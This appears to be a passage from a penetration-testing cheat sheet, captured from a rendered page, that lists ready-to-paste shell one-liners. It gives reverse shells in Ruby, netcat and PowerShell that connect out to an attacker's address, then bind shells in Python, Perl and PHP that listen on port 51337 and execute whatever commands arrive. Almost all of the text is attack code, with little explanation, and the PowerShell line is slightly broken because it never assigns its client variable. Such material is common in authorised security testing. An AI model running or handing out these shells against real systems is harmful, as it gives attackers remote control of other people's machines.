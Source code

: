 #### Ruby shell
```ruby
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat shell
```bash
nc -e /bin/sh ATTACKING-IP 80
```

#### Powershell shell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```



There are many other ways to get a reverse shell, but these are just some examples. More can be found on sites like [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and [PayloadsAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/).

### Bind Shell
A bind shell is a type of shell in which the target machine opens a communication port or a network socket and waits for an incoming connection. The attacking machine connects to that port and gets a shell.

#### Python shell
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

#### Perl shell
```perl
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

#### PHP shell
```php
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

